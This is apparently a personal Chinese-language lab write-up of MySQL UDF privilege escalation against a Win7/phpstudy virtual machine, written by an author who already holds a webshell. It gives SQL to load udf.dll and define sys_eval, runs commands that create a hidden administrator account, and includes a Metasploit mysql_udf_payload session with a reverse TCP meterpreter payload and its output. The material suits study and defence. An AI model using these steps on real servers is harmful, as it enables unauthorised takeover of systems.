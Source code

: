 ## UDF提权复现

### 环境搭建

靶机：虚拟机Win7+phpstudy2018

​			mysql5.5.53

​			php5.2.17

攻击机：物理机

在已经得到webshell的情况下，利用mysqlUDF提权，在靶机WIn7上创建administrator权限的用户



### UDF提权原理

条件：得到服务器webshell，知道数据库账号密码且可以远程连接

在udf.dll文件中，定义了名为sys_eval()的函数，该函数可以执行系统命令，通过该函数来完成系统用户的创建和提权。

注意事项：

1. 引用sys_eval()函数

   ```sql
   create function sys_eval returns string soname 'udf.dll';
   ```

2. 当MySQL<5.1版本时，将.dll文件导入到C:\WIndows\system32目录下

   当MySQL>5.1版本时，将.dll文件导入到安装目录下lib\plugin目录下

3. 保证secure_file_priv的值为空，才可以进行文件的导入和导出（确保登录用户有操作文件的权限）

   ```sql
   show global variables like '%secure%';
   ```

4. 在复现过程中，我首先用了phpstudy集成环境中的MySQL，但数据库始终无法与物理机实现远程连接。且在利用暗月shell的时候无法创建plugn路径并写入udf.dll。

   于是我又在官网下载了MySQL5.52版本（64位和32位），能够进行远程连接，顺利地写入udf.dll。具体原因暂时还未找到，现在这里记下问题。

### 提权过程

1. 查看数据库版本：5.5.53

![](https://s2.loli.net/2022/03/29/tkbg3RceOBqHQ6u.png)

2. 查看权限

```sql
show variables like '%secure%';
```

返回结果为C:\

说明数据库用户对C盘有文件控制权限



3. 查看MySQL安装路径

   ```sql
   select @@basedir;
   ```

   ![](https://s2.loli.net/2022/03/29/fhOu5ElnWCGI9KD.png)

4. 查看服务器是64位还是32位

![](https://s2.loli.net/2022/03/29/iLt5u3fKc487gPe.png)

由上图可知是32位mysql



5. 利用暗月UDF提权：导出udf.dll文件

   ![](https://s2.loli.net/2022/03/30/6LvQ1pmayVBl3qN.png)

   登录后可以查看MySQL信息，与我们之前收集的信息一致
   
   ![image-20220330093221135](C:\Users\19026\Desktop\UDF提权复现.assets\image-20220330093221135.png)

   点击导出udf：
   
   
   
   ![](https://s2.loli.net/2022/03/30/1XWBYT4pPnqoV57.png)
   
   进入服务器查看导出的udf文件
   
   ![](https://s2.loli.net/2022/03/30/yMfK98cnxvYuXAZ.png)
   
   

6. 利用暗月自带的命令创建sys_eval函数并添加管理员权限

   ![](https://s2.loli.net/2022/03/30/7ym5sWwlDJGqYhT.png)

   添加用户：

   ```bat
   select sys_eval('net user test test /add')
   ```

   添加用户到管理员组：

   ```bat
   select sys_eval('net localgroup administrators test /add')
   ```

   ![](https://s2.loli.net/2022/03/30/o9dCqa1pm3LbAK8.png)

   进入服务器查看，已经添加成功！

7. 除此之外，还可以利用msf上传udf.dll文件：

   ```shell
   msf6 exploit(multi/mysql/mysql_udf_payload) > show options 
   
   Module options (exploit/multi/mysql/mysql_udf_payload):
   
      Name              Current Setting  Required  Description
      ----              ---------------  --------  -----------
      FORCE_UDF_UPLOAD  false            no        Always attempt to install a sys_exec() mysql.function.
      PASSWORD          root             no        The password for the specified username
      RHOSTS            10.10.10.137     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
      RPORT             3306             yes       The target port (TCP)
      SRVHOST           0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
      SRVPORT           8080             yes       The local port to listen on.
      SSL               false            no        Negotiate SSL for incoming connections
      SSLCert                            no        Path to a custom SSL certificate (default is randomly generated)
      URIPATH                            no        The URI to use for this exploit (default is random)
      USERNAME          root             no        The username to authenticate as
   
   
   Payload options (linux/x86/meterpreter/reverse_tcp):
   
      Name   Current Setting  Required  Description
      ----   ---------------  --------  -----------
      LHOST  10.10.10.139     yes       The listen address (an interface may be specified)
      LPORT  4444             yes       The listen port
   
   
   Exploit target:
   
      Id  Name
      --  ----
      0   Windows
   
   
   msf6 exploit(multi/mysql/mysql_udf_payload) > run
   
   [*] Started reverse TCP handler on 10.10.10.139:4444 
   [*] 10.10.10.137:3306 - Checking target architecture...
   [*] 10.10.10.137:3306 - Checking for sys_exec()...
   [*] 10.10.10.137:3306 - Checking target architecture...
   [*] 10.10.10.137:3306 - Checking for MySQL plugin directory...
   [*] 10.10.10.137:3306 - Target arch (win32) and target path both okay.
   [*] 10.10.10.137:3306 - Uploading lib_mysqludf_sys_32.dll library to C:/Program Files (x86)/MySQL/MySQL Server 5.5/lib/plugin/dEuXsmQu.dll...
   [*] 10.10.10.137:3306 - Checking for sys_exec()...
   [*] 10.10.10.137:3306 - Command Stager progress -  55.47% done (1444/2603 bytes)
   [*] 10.10.10.137:3306 - Command Stager progress - 100.00% done (2603/2603 bytes)
   [*] Exploit completed, but no session was created.
   msf6 exploit(multi/mysql/mysql_udf_payload) > Interrupt: use the 'exit' command to quit
   msf6 exploit(multi/mysql/mysql_udf_payload) > 
   ```

   

   写入的文件名为```dEuXsmQu.dll```

   前往服务器查看：

   ![](https://s2.loli.net/2022/03/30/I2B86izUQjGbfhe.png)

   上传成功！！

   创建函数

   ```
   create function sys_eval returns string soname 'dEuXsmQu.dll';
   ```

   执行命令

   ```shell
   select sys_eval('net user');
   ```

   ![](https://s2.loli.net/2022/03/30/RCtOL1r9eksdhnu.png)


